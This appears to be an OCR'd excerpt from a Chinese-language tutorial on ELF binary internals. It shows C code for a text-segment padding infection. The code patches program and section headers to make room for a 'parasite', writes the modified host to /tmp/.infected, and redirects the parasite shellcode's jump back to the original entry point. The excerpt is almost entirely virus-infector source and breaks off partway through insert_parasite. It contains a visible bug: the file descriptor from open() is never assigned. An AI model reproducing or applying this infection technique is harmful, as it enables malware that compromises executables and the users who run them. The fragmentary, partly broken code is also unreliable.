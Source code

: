 ```
        Elf64_Ehdr *ehdr = (Elf64_Ehdr *)mem;
        Elf64_Phdr *phdr = (Elf64_Phdr *)&mem[ehdr->e_phoff];
        Elf64_Shdr *shdr = (Elf64_Shdr *)&mem[ehdr->e_shoff];

        /*
         * Adjust program headers
         */
        for (found_text = 0, i = 0; i < ehdr->e_phnum; i++) {
                if (phdr[i].p_type == PT_LOAD) {
                        if (phdr[i].p_offset == 0) {

                                o_text_filesz = phdr[i].p_filesz;
                                end_of_text = phdr[i].p_offset + phdr[i].p_filesz;
                                parasite_vaddr = phdr[i].p_vaddr + o_text_filesz;

                                phdr[i].p_filesz += parasite_len;
                                phdr[i].p_memsz += parasite_len;

                                for (j = i + 1; j < ehdr->e_phnum; j++)
                                        if (phdr[j].p_offset > phdr[i].p_offset + o_text_filesz)
                                                phdr[j].p_offset += PAGE_SIZE;

                                }
                                break;
                        }
        }
        for (i = 0; i < ehdr->e_shnum; i++) {
                if (shdr[i].sh_addr > parasite_vaddr)
                        shdr[i].sh_offset += PAGE_SIZE;
                else
                if (shdr[i].sh_addr + shdr[i].sh_size == parasite_vaddr)
                        shdr[i].sh_size += parasite_len;
        }

    /*
      * NOTE: Read insert_parasite() src code next
         */
        insert_parasite(host, parasite_len, host_len,
                        base, end_of_text, parasite, JMP_PATCH_OFFSET);
        return 0;
}
```

#### 插入寄生代码

```
#define TMP "/tmp/.infected"

void insert_parasite(char *hosts_name, size_t psize, size_t hsize, uint8_t *mem, size_t end_of_text, uint8_t *parasite, uint32_t jmp_code_offset)
{
/* note: jmp_code_offset contains the
* offset into the payload shellcode that
* has the branch instruction to patch
* with the original offset so control
* flow can be transferred back to the
* host.
*/
        int ofd;
        unsigned int c;
        int i, t = 0;
        open (TMP, O_CREAT | O_WRONLY | O_TRUNC, S_IRUSR|S_IXUSR|S_IWUSR);  
        write (ofd, mem, end_of_text);
        *(uint32_t *) &parasite[jmp_code_offset] = old_e_entry;
```